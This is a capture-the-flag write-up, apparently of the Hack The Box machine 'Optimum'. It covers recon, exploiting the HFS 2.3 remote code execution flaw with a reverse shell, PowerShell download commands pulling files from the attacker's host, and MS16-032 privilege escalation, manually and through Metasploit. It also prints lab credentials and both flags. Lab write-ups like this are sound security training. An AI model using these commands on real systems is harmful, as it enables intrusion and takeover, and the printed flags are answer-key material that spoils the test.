 ### IP
`10.10.10.8`

# Recon

### nmap
`nmap -sC -sV 10.10.10.8 -o Optimum.nmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-23 18:54 EST
Nmap scan report for 10.10.10.8
Host is up (0.051s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.78 seconds


```
* This looks very minimal... just port 80
	* When we look on the website, we can see a link to [HttpFileServer 2.3](http://www.rejetto.com/hfs/), which takes us to Rejetto's website



# Exploitation

## 1. Manual
* When we look up the server name, we can see that it allows for remote code execution.
* Look [here](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6287) for reference
* Apparently the webapp does a regex on inputs to remove any syntax that might indicate a command
	* However, we can bypass that by using a nullbyte (%00), which ends the line
* Looking at the rejetto [commands list](https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands) we can see that we can run commands with `{.exec|<command>.}
* Let's try to upload a reverse shell
* Run `searchsploit -m searchsploit -m windows/remote/39161.py` to download the exploit
* The program says we need to set up an http server with nc.exe on port 80
	* We can get nc.exe by running `locate nc.exe` and then `cp /usr/share/windows-resources/binaries/nc.exe .`
	* We can set up the server by running `python -m SimpleHttpServer 80`
* The code also says we need to change our local IP and port, so let's do that
	* My tun0 ip is `10.10.14.12` and I picked the port `8888`

* Now we can set up a nc listener with `nc -lnvp 8888`
* In another window, we can run the python script with `python 39161.py 10.10.10.8 80`

* This gives us a shell
	* However, running `whoami` tells us we're not admin

* Running `systeminfo` gives us the following information:
```
Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ��
System Boot Time:          30/11/2020, 1:12:08 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 2.954 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.170 MB
Virtual Memory: In Use:    1.333 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```
* We're currently on `Microsoft Windows Server 2012 R2 Standard`
* To figure out what to privesc, let's use winpeas
	* If we have winpeas in the directory of our python file server, we can download it to the machine with the following command:
	* `Powershell (New-Object Net.WebClient).DownloadFile('http://10.10.14.12/winPEAS.exe', 'winPEAS.exe')`
		* Thanks to [this](https://stackoverflow.com/questions/4619088/windows-batch-file-file-download-from-a-url) post for the code
		* Apparently this only works with powershell 2.0, which is what's on this machine


* Running `winPEAS.exe` get's us some interesting stuff:
```
  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found!!
    DefaultUserName               :  kostas
    DefaultPassword               :  kdeEjDowkS*
```
* Unfortunately, this isn't too useful to us, as we're already logged in as kostas

* Let's take a look at the [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
* First, we can put our `systeminfo` output into a file called `sysinfo.out`
* Next, update the exploit database by running `./windows-exploit-suggester --update`
* Now run the code with `python windows-exploit-suggester.py -i sysinfo.out -d 2020-11-23-mssb.xls`
```
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[*]   https://www.exploit-db.com/exploits/40107/ -- MS16-032 Secondary Logon Handle Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39574/ -- Microsoft Windows 8.1/10 - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032), PoC
[*]   https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
[*]   https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
```
* This looks promising. Let's download it with `searchsploit -m windows/local/39719.ps1`
* We can get it on the machine just like last time: `Powershell (New-Object Net.WebClient).DownloadFile('http://10.10.14.12/39719.ps1', 'exp.ps1')`
* Now run the exploit with `.\exp.ps1`

## 2. Metasploit

* Because we know that we have a 2.3 rejetto server, let's look for that
1. `msfconsole`
2. `search rejetto`
3. `use exploit/windows/http/rejetto_hfs_exec`
4. `options`
5. `set RHOST 10.10.10.8`
6. `set LHOST tun0`
7. `run`
8. `bg` to put the session into the background
9. `use post/multi/recon/local_exploit_suggester` to view privesc options
10. `set SESSION 1`
11. `set SHOWDESCRIPTION true`
12. `run`
13. `use exploit/windows/local/ms16_032_secondary_logon_handle_privesc`
14. `options`
15. `set SESSION 1`
16. `set LHOST tun0`
17.  `run`

* We're in!

## Getting the flags
* We can write `more user.txt.txt` to get the user flag: `d0c39409d7b994a9a1389ebf38ef5f73`


* We can cd to `C:\Users\Administrator\Desktop>` and run `more root.txt` to get the root flag: `51ed1b36553c8461f4552c2e92b3eeed`
